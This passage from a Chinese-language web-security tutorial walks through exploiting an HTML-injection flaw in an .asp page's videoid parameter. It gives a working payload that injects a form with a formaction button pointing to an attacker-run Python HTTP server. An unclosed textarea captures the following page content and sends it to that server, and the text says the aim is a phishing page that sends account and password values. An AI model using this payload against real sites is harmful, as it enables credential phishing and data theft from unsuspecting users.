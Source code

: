 通过上面 fuzz 得到的 payload, 自己搭建服务器进行实验

  
python2 使用如下命令快速启动简易的 http 服务

`python -m SimpleHTTPServer 8000`

不加端口也没事，直接使用 python -m SimpleHTTPServer 则默认端口是 8000

‍‍‍‍‍‍‍‍‍‍‍‍‍‍‍‍‍‍若报错：`No module named SimpleHTTPServer`,

是因为 python3 已经改成了 http.server

python3 使用如下命令快速启动简易的 http 服务

`python -m http.server 8000`

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbjCEMwfNuS8h34fbztrdMVKuuGaebREx0vVgD83cHwIREcsMhNr0PsA/640?wx_fmt=png)

本地测试时使用的 payload  

```
"><form><button formaction=http://127.0.0.1:8000/>clickMme</button><textarea name=x>
```

把 payloa 拼接上去然后在用流量器打开

```
http://xxxxxxx.com/xxx.asp?videoid=%22%3E%3Cform%3E%3Cbutton%20formaction=http://127.0.0.1:8000/%3EclickMme%3C/button%3E%3Ctextarea%20name=x%3E
```

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbJd8ctuFJ4E7hbGAqAgB8ad1FodKVibqW1OBXwebqwMurxmO6P2KAiatA/640?wx_fmt=png)

点击 clickMe 之后就跳转到了我们搭建的服务器上  

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbZkLkLoHlrFrxvJsArhuFex62uAlbDQquVFbAiaSRZPbIYDPiclMmr1lg/640?wx_fmt=png)

**外网测试**  

-----------

大家应该有注意到了跳转成功时后面会带有一串参数，

关于这个参数我们先看一下关于`<textarea>` 标签的定义：

```
<textarea> 标签定义一个多行的文本输入控件。
文本区域中可容纳无限数量的文本，其中的文本的默认字体是等宽字体（通常是 Courier）。
可以通过 cols 和 rows 属性来规定 textarea 的尺寸大小，不过更好的办法是使用 CSS 的 height 和 width 属性
```

看到这里大家应该知道了，其实利用 fuzz 出的 payload 进行实验时后面的那个参数 x 就是`<textarea name=x>`

我们在 payload 中利用不闭合的`<textarea>`吸收掉后面多余的代码 

而 x 的参数值就是后面没用的冗余代码, 我们最终的钓鱼页面也是需要参数来传递账号密码的值的

所以这里就直接用`<textarea name=x>`结合后面冗余的代码做实验

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktb8iczaziacPpk9OPhZVria5cuYH5NIWna044kBQzOOFb1Pib6EibTeDZnfDA/640?wx_fmt=png)
